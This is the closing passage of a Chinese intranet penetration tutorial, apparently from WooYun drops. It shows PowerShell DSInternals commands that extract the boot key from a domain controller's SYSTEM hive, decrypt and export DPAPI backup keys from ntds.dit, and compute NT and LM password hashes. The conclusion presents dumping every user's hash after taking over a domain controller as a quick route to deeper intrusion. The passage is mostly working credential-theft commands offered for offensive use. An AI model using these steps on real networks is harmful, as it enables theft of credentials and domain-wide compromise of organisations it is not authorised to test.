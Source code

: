```
Get-BootKey -SystemHiveFilePath 'C:\Users\a\Desktop\a\SYSTEM'
得到c76034ff820edbc012308a258faf3d26

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/79c98f722d7950bd20c62c106b42bdbb2d1ab6a2.jpg)

**（2）**解密得到DPAPI backup keys

```
Get-ADDBBackupKey -DBPath 'C:\Users\a\Desktop\a\ntds.dit'  -BootKey c76034ff820edbc012308a258faf3d26 |  Format-List

```

**（3）**导出到文件

```
Get-ADDBBackupKey -DBPath 'C:\Users\a\Desktop\a\ntds.dit' -BootKey c76034ff820edbc012308a258faf3d26 | Save-DPAPIBlob -DirectoryPath .\Keys

```

6、Hash计算
--------

```
$pwd = ConvertTo-SecureString 'TestTest' -AsPlainText -Force
ConvertTo-NTHash $pwd
ConvertTo-LMHash $pwd
ConvertTo-OrgIdHash -NTHash 'd280553f0103f2e643406517296e7582'

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/9da0c6e21bb3171441d83d8f7adeb61b797f9872.jpg)

0x05 小结
=====

随着技术的发展，效率一直在提高

在获取域控权限下，导出所有用户hash的方法越来越简便，当域控被攻陷后，可以在很短的时间内提取出有用的信息用来进一步渗透，内网渗透将会越来越有趣。

本文由三好学生原创并首发于乌云drops，转载请注明